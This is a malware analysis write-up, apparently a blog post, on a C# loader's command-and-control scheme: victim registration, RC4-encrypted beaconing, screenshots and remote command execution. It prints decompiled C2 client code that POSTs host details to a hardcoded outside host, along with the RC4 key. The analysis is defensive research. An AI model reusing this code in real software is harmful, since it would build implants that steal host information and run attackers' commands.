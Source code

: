 A custom string generator method is used, which creates a random 16 character alphanumeric string. This will be used as a "registration id" for the C2 server.   

The second argument is converted to a byte array -- spoiler alert, this is an RC4 key which will be used to encrypt/decrypt the communications with the C2. 

Argument three is used to pass to the `Sleep` method, controlling the rate of the C2 beacon.

To "register" the victim device, the script creates a formatted string using the registration id and the result of another custom method, which returns the ComputerName, UserDomain, and UserName environment variable values.  

The registration string is then sent to the C2 server using a method I've renamed to "c2_comms". 

Once the victim has been registered, the script enters a loop. In each iteration, it will sleep for 75 seconds before contacting the C2 again.  
If the C2 does not respond, the loop continues without taking any action.  

If the C2 answers, the response will be decrypted using the hardcoded RC4 key, and depending on the content of the response one of four actions will be taken.
- Alter the beacon time
- Take a screenshot and send it to the C2
- Exit the loop
- Execute the command from the C2 and send back the response  

Let's take a look at how the script communicates with the C2 server.
### Loader C2 Communication
If a string is passed in as the first argument to the `c2_comms` method, it will first be encrypted using RC4. The key, as mentioned earlier, is `OYEXidNnoFTXfoKbDqoEaOuj`. 

A URI is then generated with a random string as the path, and used to create a web request. The OS version is set as the UserAgent, and a hardcoded host string is used as the host field.

Note: I believe this means the domain argument originally passed into the loader is irrelevant; since the host parameter is hardcoded, it will always override the argument string.
In fact, the arguments used in the other `.t` file are: `("https://mscrl.microsoft.com", "fLYQnVRnUoiGOuJdSXkNkDfC", "20000")`. The use of the benign Microsoft domain indicates an attempt to disguise the real destination.  

It is possible the threat actor meant to use a benign URL in both arguments, but forgot to replace one of them.
```C#        
public static string c2_comms(string arg1, string arg2)
{
	byte[] rc4_encrypted_string;
	if (arg1 != null)
	{
		rc4_encrypted_string = rc4_class.call_rc4_encrypt(byte_array, Encoding.ASCII.GetBytes(arg1));
	}
	else
	{
		rc4_encrypted_string = new byte[0];
	}
	//will generate a url string with a random string as the path
	string url_string = String.Format("{0}/{1}/", snow_cdn_url, rand_str_generator(0));
	HttpWebRequest http_request = (HttpWebRequest)WebRequest.Create(url_string);
	http_request.Method = "POST";
	http_request.UserAgent = os_version_str;
	http_request.Timeout = 10000;
	http_request.Host = "snow.cdn-b1d8e9.workers.dev";
	http_request.Proxy.Credentials = CredentialCache.DefaultNetworkCredentials;
	Stream stream = null;
	StreamReader streamreader = null;
	string streamreader_content;
	string data_str = "";
	if (rc4_encrypted_string.Length > 0)
	{
```